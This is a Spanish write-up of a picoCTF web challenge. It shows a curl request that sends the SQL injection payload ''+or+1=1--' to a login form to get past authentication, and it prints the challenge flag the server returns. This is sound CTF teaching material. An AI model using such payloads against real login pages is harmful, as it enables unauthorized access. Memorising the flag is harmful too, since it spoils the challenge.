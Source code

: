 ### **Descripción**

Hay un sitio web que se ejecuta en [enlace](https://jupiter.challenges.picoctf.org/problem/50009/) o `http://jupiter.challenges.picoctf.org:50009`. ¿Crees que puedes iniciar sesión con nosotros? ¡Intenta ver si puedes iniciar sesión!

---

### **Proceso**

#### **1. Análisis inicial del sitio**

Intenté acceder al sitio web y observé que contenía una página de inicio de sesión (`login.php`).

#### **2. Prueba de inyección SQL**

Dado que muchos sistemas de autenticación son vulnerables a inyecciones SQL, intenté iniciar sesión usando un payload común para omitir la autenticación:

`curl "https://jupiter.challenges.picoctf.org/problem/50009/login.php" --data "username=admin&password='+or+1=1--"`

#### **3. Respuesta del servidor**

La página respondió con el siguiente mensaje:

`<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>`

Esto confirma que la aplicación es vulnerable a una inyección SQL y que la autenticación fue omitida con éxito.

---

### **Referencias**

1. OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
    
2. Uso de `curl` para peticiones HTTP: https://curl.se/docs/manpage.html